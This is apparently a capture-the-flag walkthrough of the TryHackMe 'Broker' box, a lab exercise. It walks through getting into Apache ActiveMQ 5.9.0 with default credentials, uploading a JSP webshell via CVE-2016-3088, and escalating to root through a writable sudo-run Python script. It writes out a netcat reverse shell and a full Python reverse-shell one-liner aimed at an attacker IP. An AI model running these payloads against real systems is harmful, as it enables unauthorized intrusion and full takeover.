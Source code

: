 ```yaml
---
layout: post
title: "Broker"
date: 2021-03-13
ctf: true
excerpt: "Walkthrough for Broker on TryHackMe"
tags: [activeMQ, CVE, sudo abuse, Python scripting, default credentials]
comments: false


---
```


# Broker

Broker is a medium rated box recently released on TryHackMe that was recently released. Below are the steps I followed in order to answer the questions for this room, ultimately leading up to rooting the box.


## Hints

<details><summary><strong>Question 1 Hints</strong></summary>
<ul>
    <li>What tools can be used to enumerate open TCP ports on a system?
</ul>
</details>

<details><summary><strong>Question 2 Hints</strong></summary>
<ul>
    <li>Nmap with the right parameters can provide this answer.
</ul>
</details>

<details><summary><strong>Question 3 Hints</strong></summary>
<ul>
    <li>Have you found an MTTQ client?
    <li>You will need credentials to connect, have you looked for default credentials for this service?
    <li>The topics for this broker service should have one that is very obvious that will contain the answer to this question.
</ul>
</details>

<details><summary><strong>Question 4 Hints</strong></summary>
<ul>
    <li>With the credentials you uncovered in question 3, login to the site on one of the open ports and uncover the version that's running. Are there known CVEs for this version of this service?
    <li>Is there a way to obtain a reverse shell to gain an initial foothold onto the victim with a known exploit for the CVE you uncovered?
</ul>
</details>

<details><summary><strong>Question 5 Hints</strong></summary>
<ul>
    <li>Have you been able to establish a more stable/interactive shell?
    <li>What can the user run as sudo?
    <li>Is there a way this could be abused?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>
    
### Question 1

The first question for this room was:

![Broker Question 1](/assets/img/Broker1.png)

To answer this question, I ran

**`threader3000`**

 This produced the following, which lists the open ports on the victim host, including the two in the 1000-10000 range.

![Broker threader3000](/assets/img/Broker2.png)

### Question 2

The second question for this room was the following:

![Broker Question 2](/assets/img/Broker3.png)

Letting threader3000 run it's recommended scan will produce the following output, which contains the answer to this question:

![Broker nmap](/assets/img/Broker4.png)

### Question 3

The third question is asking for the following:

![Broker Question 3](/assets/img/Broker5.png)

Now that we know ActiveMQ is running on this host, we need to find something that will allow us to connect and retrieve these messages from this brokering service. After a bit of digging, I uncovered [MQTT.fx](https://mqttfx.jensd.de/). 

![Broker MQTT.fx website](/assets/img/Broker6.png)

After installing it I launched the application. I then clicked on the gear icon to configure my connection. As shown below (the MQTT Version was provided in the hint):



![Broker MQTT.fx connection configuration](/assets/img/Broker7.png)

Once completed, I clicked on the **User Credentials** section. We did not have a username or password to enter so I performed a quick search on Google, and uncovered that the default admin credentials were admin/admin for username and password:

![Broker ActiveMQ default credentials](/assets/img/Broker8.png)

I attempted the admin/admin credentials and was successful in connecting!

![Broker MQTT.fx credentials](/assets/img/Broker9.png)

![Broker successful connection](/assets/img/Broker10.png)

Next, I clicked on **Subscribe** and clicked on **Scan** under **Topics Collector** after a few moments, an interesting topic named **secret_chat** appears.

![Broker Subscribe scan](/assets/img/Broker11.png)

Next, in the drop down menu, I entered **secret_chat** and clicked on **Subscribe**. After a few moments, some messages come through, including one that answers this question:

![Broker video game name](/assets/img/Broker12.png)


### Question 4 - flag.txt

For this section, we need to review what we know so far. We know that Apache ActiveMQ is installed and running on port 1883. We also know there is a website hosted on port 8161 for this application. My next action was to see if there were any CVEs for ActiveMQ, but in order to narrow it down, we would need to know the version. I attempted to load the website at **http://\<victim host>:8161** and was presented with the following:

![Broker ActiveMQ website](/assets/img/Broker13.png)

I clicked on the **Manage ActiveMQ broker** and was prompted for credentials. I entered the same ones we used for MQTT.fx (admin/admin) and logged in successfully.

![Broker admin login](/assets/img/Broker14.png)

Once logged in, the main page displays the version number: **5.9.0**.

![Broker ActiveMQ version](/assets/img/Broker15.png)

After digging around on Google, I uncovered [this](https://medium.com/@knownsec404team/analysis-of-apache-activemq-remote-code-execution-vulnerability-cve-2016-3088-575f80924f30) article, which explains how you can upload an arbitrary jsp file and move it into a directory where it is executable. The first thing I would need is a jsp shell. I ended up using the one located [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp).

Next, I loaded up Burp Suite to have it intercept traffic and I went to the **/fileserver** directory as mentioned in the article on how to exploit ActiveMQ.

![Broker /fileserver directory](/assets/img/Broker16.png)

In Burp Suite, I let the intercepted traffic go through and then I clicked on the **Target** tab and right clicked on the GET request and sent that request to **Repeater**

![Broker Burp Suite Target](/assets/img/Broker17.png)

Next, I changed the GET request to a PUT request and appended shell.jsp to the URL. I then all the information for the request after the Host: section and added in **Authorization: Basic YWRtaW46YWRtaW4=** (this is admin:admin in base64, which can be gathered from sniffing the traffic when calculating it in Kali or by using CyberChef as shown below).

![Broker CyberChef](/assets/img/Broker18.png)

Next, I left a blank line and pasted in the shell downloaded from the previously mentioned GitHub repository and clicked on Send. If successful, you will receive a 204 response code as shown below:

![Broker upload shell Burp](/assets/img/Broker19.png)

Next, we need to move this into the admin directory, in order to do so, we need to modify the request in Repeater by removing the jsp shell code, and change the URI path to **/fileserver/asdf/%20/%20**. We know this does not exist, which is done on purpose so we can return the full directory path in the response, as shown below:

![Broker return directory path Burp](/assets/img/Broker20.png)

This is needed since we need to know the path involved to move the file into the admin directory. Now that we know the path, we can modify our command in Repeater once again to move the file into the admin directory. This is done by changing the type from PUT to MOVE and referencing the shell.jsp file we initially uploaded. We would then need to add  **Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/shell.jsp** to the request, to move the shell to the admin folder where it can be executed.  Next, add a blank line followed by whatever text you would like. Once modified, click on **Send**. You should get another 204 HTTP response as shown below:

![Broker move jsp shell](/assets/img/Broker21.png)

At this point, you are done with Burp Suite, so you can close it if you would like. Now, in your browser, navigate to **http://\<victim ip>:8161/admin/shell.jsp** and you should see something similar to the following:

![Broker jsp shell](/assets/img/Broker22.png)

After entering a few commands, it appears that netcat is present on the victim machine

![Broker nc](/assets/img/Broker23.png)

On our attacker box, let's open a listener with netcat to catch a reverse shell  on port 4567 with:

**`nc -nvlp 4567`**

![Broker nc listener](/assets/img/Broker24.png)

Next, on our victim host, enter a [ netcat reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat) on the victim host and click on send:

**`nc -e /bin/bash <attacker ip> 4567`**

![Broker enter nc reverse shell](/assets/img/Broker25.png)

You should now have a foothold into this system!

![Broker initial foothold](/assets/img/Broker26.png)

We are limited with what commands can be ran, so let's see if we can find a way to upgrade our shell. Luckily, python3 is installed on the victim host as shown below:

![Broker which python3](/assets/img/Broker27.png)

Let's run:

**`python3 -c 'import pty; pty.spawn("/bin/bash")'`** 

to upgrade our shell.

![Broker upgraded shell](/assets/img/Broker28.png)

Next, let's run: 

**`ls`** 

and we will see the **flag.txt** file in this directory.

![Broker ls](/assets/img/Broker29.png)

Let's next run:

**`cat flag.txt`**

to answer this question.

![Broker cat flag.txt](/assets/img/Broker30.png)

### Question 5 - root.txt

The final challenge is to obtain root.txt. Thankfully, privilege escalation is rather simple for this box. 

![Broker root.txt](/assets/img/Broker31.png)

First, let's run:

**`sudo -l`** 

to see what commands this user can run as sudo. We receive the following as a response:

![Broker sudo -l](/assets/img/Broker32.png)

It appears we can run python 3.7 with the subscribe.py file as root. Let's see what permissions we have on that file with the following:

**`ls -al /opt/apache-activemq-5.9.0|grep subscribe.py`**

We see that the activemq user has access to write to this file!

![Broker ls -al](/assets/img/Broker33.png)

Since this is executed as root, we just need to enter a python reverse shell into this file and execute it as root with sudo. First, we need to get our Python [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) payload. We will take the Ipv4 one listed for Python, and make some modifications and echo it into the subscribe.py file as follows:

**`echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker ip",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > subscribe.py`**

The "attack ip" portion above would need to be replaced with your attacker IP address (in quotes). The > designates to overwrite the contents of the previous file.

![Broker echo reverse shell](/assets/img/Broker34.png)

This can be verified by running:

**`cat subscribe.py`**

We should see our reverse shell string at the end of the file.

![Broker cat subscribe.py](/assets/img/Broker35.png)

Next, on the attacker host, run:

**`nc -nvlp 4242`**

to catch the reverse shell as root:

![Broker nc listener for root shell](/assets/img/Broker36.png)

Next, on the victim host, run the command that was listed under sudo -l with sudo prepending the command:

**`sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py`**

![Broker sudo python3](/assets/img/Broker37.png)

We should now have a shell as root on the listener on port 4242

![Broker root shell](/assets/img/Broker38.png)

Now, to wrap up this box, let's run the following commands:

**`cd root`**

**`ls`**

**`cat root.txt`**

![Broker root.txt flag](/assets/img/Broker39.png)

That's it! This box has been fully compromised!

</details>
